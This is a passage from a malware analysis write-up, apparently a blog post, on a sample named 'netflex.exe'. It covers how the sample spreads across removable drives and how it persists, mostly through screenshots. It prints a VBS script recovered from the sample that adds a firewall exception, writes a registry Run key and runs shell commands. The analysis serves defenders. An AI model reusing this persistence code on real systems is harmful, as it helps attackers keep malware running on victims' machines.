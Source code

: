 ![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/6f7fd25f-61d4-4658-bfac-a22c4f894da3)

**Replication**

There is also the capability for replication across removable media drives, and creating a vbs script as a means of persistence.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/381c8cc6-fca3-42da-ad73-5d1b4f3e790f)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/8eb4112f-fa44-46a2-924a-711cf073aca0)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/b47f825d-f9e8-4a07-b3be-14859f79be54)

**VBS Script**
```
dim shellobj
set shellobj = wscript.createobject("http://wscript.shell")

ddd= "netsh firewall add allowedprogram c:\users\user\appdata\roaming\netflex\netflex.exe ""netflex.exe"" ENABLE"
cmdshell(ddd)

shellobj.regwrite "HKEY_CURRENT_USER\software\microsoft\windows\currentversion\run\" & split ("netflex.exe",".")(0), "c:\users\user\appdata\roaming\netflex\netflex.exe", "REG_SZ"

function cmdshell (cmd)

dim httpobj,oexec,readallfromany

set oexec = shellobj.exec ("%comspec% /C /Q /K /S" & cmd)
if not oexec.stdout.atendofstream then
   readallfromany = oexec.stdout.readall
elseif not oexec.stderr.atendofstream then
   readallfromany = oexec.stderr.readall
else 
   readallfromany = ""
end if

cmdshell = readallfromany
end function
```

**Persistence**

Previously noted registry run key additions.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/d6b7e8d2-0be3-448d-9eb2-f1bb0ec4b51c)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/d7224c19-bd8c-4827-a730-1183d14bfcc3)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/f4bf9291-5090-486c-bffd-33e51d3adcc3)

As well as the binary being copied to the Startup directory.
